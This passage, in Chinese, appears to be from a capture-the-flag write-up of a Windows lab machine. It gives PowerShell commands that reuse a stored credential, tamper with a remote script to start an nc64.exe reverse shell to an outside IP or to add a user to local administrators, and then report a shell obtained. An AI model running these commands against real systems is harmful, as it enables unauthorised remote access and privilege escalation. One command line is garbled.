 ## 修改脚本

修改脚本来进行反弹 shell。

```plain
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.16.10 443} -ComputerName Acute-PC01 -Credential $creds
Invoke-Command-ScriptBlock{((cat..\desktop\wm.ps1-Raw)-replace'Get-Volume','C:\utils\nc64.exe -e cmd 10.10.16.10 443')|sc-Path..\desktop\wm.ps1}-ComputerNameATSSERVER-ConfigurationNamedc_manage-Credential$cred
Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.16.10 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((Get-Content "c:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $Creds
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path  ..\desktop\wm.ps1} -credential $Creds
```

然后重启主机，进行测试，发现可用执行。

[![](assets/1706145607-febf6942ad04ad464b82f5c9836e2ae0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113824-06f44d98-ba6a-1.png)

## 反弹 shell

成功获取 shell

[![](assets/1706145607-06b7b64278ebec7f1a1cc1661f9af658.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113831-0b427bb8-ba6a-1.png)
